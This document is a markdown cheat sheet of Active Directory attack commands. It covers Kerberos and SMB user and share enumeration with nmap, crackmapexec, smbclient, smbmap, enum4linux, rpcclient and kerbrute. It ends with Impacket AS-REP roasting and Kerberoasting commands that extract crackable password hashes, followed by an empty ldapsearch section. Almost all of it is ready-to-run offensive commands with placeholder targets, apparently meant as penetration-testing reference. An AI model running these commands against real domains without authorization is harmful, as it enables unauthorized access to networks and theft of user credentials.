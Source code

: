 ### 1 - nmap

* ``` $ nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm=’<domain>’,userdb=/root/Desktop/usernames.txt <IP> ``` 

### 2 - SMB

* enum shares with crackmapexec 
* ``` $ crackmapexec smb <IP> -u "guest" -p "" --shares ```

* valid user shares enum
* ``` $ crackmapexec smb <IP> -u "name" -p "pass" --shares ```

* enum shares with smbclient
* ``` $ smbclient -N -L //<IP>/ ```

* connect to shares
* ``` $ smbclient //<IP>/<SHARE> -U anonymous ``` 

* enum shares with smbmap 
* ``` $ smbmap -u null -p "" -H <IP> ```


### 3 - enum4linux

* ``` $ enum4linux -U -o <IP> (enum users and O.S) ```   

* ``` $ enum4linux -A <IP> (agressive mode) ```


### 4 - enum with rpcclient 

* empty user connection 
* ``` $ rpcclient <IP> -U "" -N ```

* valid user connection
* ``` $ rpcclient -U "name" <IP> ```


### 5 - metasploit

* ``` msf > use Auxiliary/gather/Kerberos_enumusers ```


### 6 - enum user with Kerbrute

* ``` $ ./kerbrute userenum --dc <IP>  -d ad.domain /path/to/wordlist ```


### 7 - Impacket scripts

#### If you have a list of valid users...
* [ASREProast](https://www.thehacker.recipes/ad/movement/kerberos/asreproast) 
* ``` $ impacket-GetNPUsers -dc-ip <IP> <ad.domain/> -no-pass -usersfile <userslist> -format john ```


#### If you have valid creds...
* [Kerberoast](https://www.thehacker.recipes/ad/movement/kerberos/kerberoast)
* ``` $ impacket-GetUserSPN  -dc-ip <IP> <ad.domain>/<user>:<pass> -request ```


### 8 - ldapsearch

...

